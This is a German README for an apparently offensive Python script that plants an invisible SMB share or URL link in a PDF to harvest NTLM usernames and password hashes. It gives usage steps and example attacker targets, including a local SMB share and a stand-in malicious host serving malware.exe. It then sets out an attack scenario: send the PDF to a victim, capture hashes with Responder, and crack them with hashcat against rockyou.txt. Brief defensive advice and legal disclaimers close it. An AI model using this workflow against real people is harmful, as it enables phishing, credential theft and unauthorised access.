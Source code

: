 # 📄 PDF-Manipulationsskript – Abgreifen von Benutzernamen und Hashes

### ⚠ Wichtige Hinweise

Dieses Skript dient ausschließlich zu Schulungs- und Testzwecken.
Missbrauch ist illegal und strafbar!

## 📌 Beschreibung

Dieses Skript ermöglicht das Manipulieren eines bestehenden PDFs, indem ein unsichtbarer Link (SMB-Share oder URL) eingefügt wird. Beim Öffnen oder Klicken auf bestimmte Bereiche kann Windows automatisch eine NTLM-Authentifizierung senden, wodurch Benutzernamen und Passwort-Hashes abgegriffen werden können.

### 🛠 Anforderungen

Betriebssystem: Windows, Linux oder macOS

Python-Version: 3.9 oder höher

Benötigte Bibliotheken:
```` Bash
pip install pymupdf 
````
## 🚀 Installation & Nutzung

1️⃣ Skript starten

python pdf_manipulator.py

2️⃣ PDF auswählen

Wähle ein existierendes PDF aus.

3️⃣ SMB-Link oder URL eingeben

* Beispiel für SMB-Link: \\192.168.1.100\share

* Beispiel für HTTP-Link: http://böse-seite.com/malware.exe

4️⃣ Manipuliertes PDF wird gespeichert

Das manipulierte PDF wird automatisch als originalname_manipuliert.pdf gespeichert.

## 🕵‍♂️ Angriffsszenario

Angreifer schickt ein manipuliertes PDF an das Opfer.

Opfer öffnet das PDF, woraufhin eine SMB-Authentifizierung an die Angreifer-IP gesendet wird.

Angreifer fängt NTLM-Hashes ab mit einem Tool wie Responder:
````Bash
sudo responder -I eth0
````
Passwort-Hash wird mit Hashcat geknackt:

````Bash
hashcat -m 5600 hashfile rockyou.txt --force
````
## 🔒 Schutzmaßnahmen

✅ PDF-Sicherheit erhöhen

* Unbekannte PDFs nicht öffnen

* PDFs in einem sicheren Viewer öffnen (z. B. Chrome statt Adobe)

* JavaScript in PDFs deaktivieren

✅ Netzwerksicherheit verbessern

* SMB-Signing aktivieren (SMB1 deaktivieren!)

* NTLMv2-Authentifizierung erzwingen

* Defender & EDR-Lösungen aktiv halten

✅ Mitarbeiterschulung

* Phishing-Sensibilisierung: Mitarbeiter sollten verdächtige Dateien vermeiden.

* Makros & externe Links in PDFs deaktivieren.

### 🏴‍☠️ ⚠ Rechtliche Hinweise

Dieses Skript darf nur in Testumgebungen genutzt werden. Unbefugtes Eindringen in fremde Systeme ist illegal!

